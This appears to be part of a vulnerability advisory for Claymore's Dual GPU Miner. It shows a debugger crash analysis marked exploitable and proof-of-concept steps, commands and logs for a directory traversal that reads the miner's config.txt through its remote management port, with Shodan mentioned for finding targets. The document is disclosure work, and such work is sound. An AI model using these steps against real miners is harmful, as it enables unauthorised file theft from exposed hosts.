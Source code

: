     00000059`b3b20000 00000000`00000000 : 00000000`00000000 00000000`00000000 00000000`00000000 00000000`00000000 : 0x61616161`61616161


    STACK_COMMAND:  .cxr 0x0 ; kb
    SYMBOL_STACK_INDEX:  0
    SYMBOL_NAME:  ethdcrminer64+5449f
    FOLLOWUP_NAME:  MachineOwner
    MODULE_NAME: EthDcrMiner64
    IMAGE_NAME:  EthDcrMiner64.exe
    DEBUG_FLR_IMAGE_TIMESTAMP:  59a94db0
    FAILURE_BUCKET_ID:  INVALID_POINTER_WRITE_EXPLOITABLE_c0000005_EthDcrMiner64.exe!Unknown
    BUCKET_ID:  APPLICATION_FAULT_INVALID_POINTER_WRITE_EXPLOITABLE_ethdcrminer64+5449f
    ANALYSIS_SOURCE:  UM
    FAILURE_ID_HASH_STRING:  um:invalid_pointer_write_exploitable_c0000005_ethdcrminer64.exe!unknown
    FAILURE_ID_HASH:  {08a7b27a-6079-b811-3504-3dff38b979e1}
    Followup: MachineOwner
    ---------


Directory Traversal:

1. start miner in read/write mode with no passwort being set for testing

    #> EthDcrMiner64.exe -epool http://192.168.0.1:8545 -mport 3333
    ...

2. run poc.py --vector=traversal <target> (we expect EthDcrMiner64.exe to be placed in a directory called `/Claymore.s.Dual.Ethereum.Decred_Siacoin_Lbry_Pascal.AMD.NVIDIA.GPU.Miner.v10.0`)

    [poc.py -             <module>() ][    INFO] --start--
    [poc.py -             <module>() ][    INFO] # Claymore's Dual ETH + DCR/SC/LBC/PASC GPU Miner - Remote Buffer Overwrite
    [poc.py -             <module>() ][    INFO] # github.com/tintinweb
    [poc.py -         iter_targets() ][ WARNING] shodan apikey missing! shodan support disabled.
    [poc.py -             <module>() ][    INFO] [i] Target: 127.0.0.1:3333
    [poc.py -             <module>() ][    INFO] [+] connected.
    [poc.py -             <module>() ][   DEBUG] <-- 1048 '{"id": 0, "error": null, "result": ["../Claymore.s.Dual.Ethereum.Decred_Siacoin_Lbry_Pascal.AMD.NVIDIA.GPU.Miner.v10.0/config.txt", "<encoded file data>"]}'
    [poc.py -             <module>() ][    INFO] --done--

3. EthDcrMiner returned the files content, as shown in the logs.

    ...
     DCR: 11/22/17-22:56:06 - New job from pasc-eu2.nanopool.org:15555
    Remote management: file ..\Claymore.s.Dual.Ethereum.Decred_Siacoin_Lbry_Pascal.AMD.NVIDIA.GPU.Miner.v10.0\config.txt was uploaded
     DCR: 11/22/17-22:56:16 - New job from pasc-eu2.nanopool.org:15555
    ...

Patch
-----

    n/A - closed source
